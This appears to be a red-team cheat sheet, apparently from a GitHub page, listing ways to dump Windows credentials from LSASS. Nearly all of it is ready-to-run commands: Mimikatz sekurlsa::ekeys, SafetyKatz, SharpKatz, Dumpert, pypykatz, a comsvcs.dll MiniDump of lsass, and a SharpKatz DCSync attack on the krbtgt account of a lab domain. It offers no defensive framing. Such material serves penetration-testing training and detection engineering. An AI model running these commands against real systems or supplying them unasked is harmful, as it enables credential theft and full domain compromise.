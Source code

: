 ### Other ways to extract creds from LSASS

##### Invoke-Mimikatz

```powershell
# 1. Dump credentials on a local machine using Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

##### SafetyKatz & SharpKatz

```powershell
# 2. Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"

# 3. Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality)
SharpKatz.exe -Command ekeys
```

##### Dumpert

```powershell
# 4. Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

##### pypykatz

```powershell
# 5. Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa
```

```powershell
# 6. Using comsvcs.dll
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full
```

>   Now Extract the creds from lsass dump

```powershell
# Run mimikatz
# set the location of the lsass dump
sekurlsa::minidump lsass.DMP

# get the debug privs
privilege::debug

# now get the ekeys
sekurlsa::ekeys
```

##### SharpKatz

```powershell
# 7. Using SharpKatz.exe to do DCSync Attack
SharpKatz.exe --Command dcsync --User us\krbtgt --Domain us.techcorp.local --DomainController us-dc.us.techcorp.local
```
